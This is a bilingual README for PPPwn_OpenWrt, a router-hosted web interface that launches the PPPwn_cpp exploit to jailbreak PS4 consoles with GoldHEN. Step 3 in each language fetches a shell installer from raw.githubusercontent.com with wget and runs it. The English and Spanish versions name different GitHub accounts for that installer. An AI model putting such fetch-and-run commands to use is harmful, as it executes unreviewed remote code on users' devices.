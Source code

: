 This activation method works for devices with the OpenWrt Linux system as long as they can run PPPwn C++. Check the repository of [Xfangfang](https://github.com/xfangfang/PPPwn_cpp) for compatibility.

## Requirements:

- Supports PS4 FW 9.00, 9.50, 9.51, 9.60, 10.00, 10.01 and 11.00
- Router/Modem with LAN connection and OpenWrt.
- PuTTY installed on your PC to access the terminal.
- Verify `PPPwn_cpp` for OpenWrt Linux distributions by using the command `uname -m`. It is recommended to install the MIPSEL build.
- Download `goldhen.bin` for your console's firmware from [Sistro](https://github.com/GoldHEN/GoldHEN/releases).
- USB drive with 1GB or more of storage.
- Tested model [GL-MT300N-V2 Mango](https://www.gl-inet.com/products/gl-mt300n-v2/)

## Steps installation:

1. It is recommended to update the router firmware before proceeding.
2. Check if `unzip` is installed:
    ```sh
    opkg list-installed | grep unzip
    ```
    If it is not installed, install `unzip` with the following command:
    ```sh
    opkg update
    opkg install unzip
    ```
3. From the terminal on your router, run these commands:
    ```sh
    wget -O /tmp/installer.sh https://raw.githubusercontent.com/devlopers1/qq/main/installer.sh
    chmod +x /tmp/installer.sh
    /tmp/installer.sh
    ```
    At the end, press Enter to complete the installation.
4. Copy `goldhen.bin` to your USB drive. Make sure it is formatted in exFAT or FAT32 and connect it to your console.
5. From your PS4 console, set up a PPPoE network connection using `ppp` as the username and password.
6. Wait a few seconds until the internet connection is established and, from the console's web browser, go to `http://<router_ip>/pppwn.html`.
7. Select the build compatible with your router device and click "Install". Wait until the installation is complete.
8. In case there is an error or you do not get the expected result on Ethernet, you can restart the installation by clicking "Update".
9. Router models with a customizable switch button can use it to boot PPPwn.

PPPwn from https://github.com/xfangfang/PPPwn_cpp

### Credits: TheFlowTheOfficialFloW / Sistro / Xfangfang

---

# PPPwn_OpenWrt
Interfaz web para arrancar PPPwn_cpp desde el navegador web de PS4.

## Requerimientos:

- Soporta PS4 FW 9.00, 9.50, 9.51, 9.60, 10.00, 10.01 y 11.00
- Router/Modem conexión lan con OpenWrt.
- Tener instalado PuTTY en tu PC para acceder por el terminal.
- Verificar PPPwn_cpp para distribuciones Linux OpenWrt, verificar con el comando `uname -m` recomiendo instalar la compilación MIPSEL.
- Descargar goldhen.bin para el Firmware de tu consola [Sistro](https://github.com/GoldHEN/GoldHEN/releases).
- Memoria USB 1GB o más

## Instalación

1. Actualiza el sistema del mini-router antes de continuar.
2. Verifica si tienes instalado `unzip`:
    ```sh
    opkg list-installed | grep unzip
    ```
    Si no está instalado, instala `unzip` con el siguiente comando:
    ```sh
    opkg update
    opkg install unzip
    ```
3. Desde el terminal en tu router, ejecuta estos comandos:
    ```sh
    wget -O /tmp/installer.sh https://raw.githubusercontent.com/CodeInvers3/Ahmed/main/installer.sh
    chmod +x /tmp/installer.sh
    /tmp/installer.sh
    ```
    Al final, presiona Enter para completar la instalación.
4. Copia `goldhen.bin` a tu memoria USB. Asegúrate de que esté formateada en exFAT o FAT32 y conéctala a tu consola.
5. Desde tu consola PS4, configura una conexión de red en PPPoE usando `ppp` como usuario y contraseña.
6. Espera unos segundos hasta que se establezca la conexión a internet y, desde el navegador web de la consola, accede a la dirección `http://<router_ip>/pppwn.html`.
7. Selecciona la compilación compatible con tu dispositivo router y haz clic en "Instalar". Espera hasta que se complete la instalación.
8. En caso de que haya un error o no obtengas el resultado esperado en Ethernet, puedes reiniciar la instalación haciendo clic en "Update".
9. Modelos de routers que dispongan de un botón cambio puede usarlo para arrancar PPPwn


Probado en mini router [GL-MT300N-V2 Mango](https://www.gl-inet.com/products/gl-mt300n-v2/)
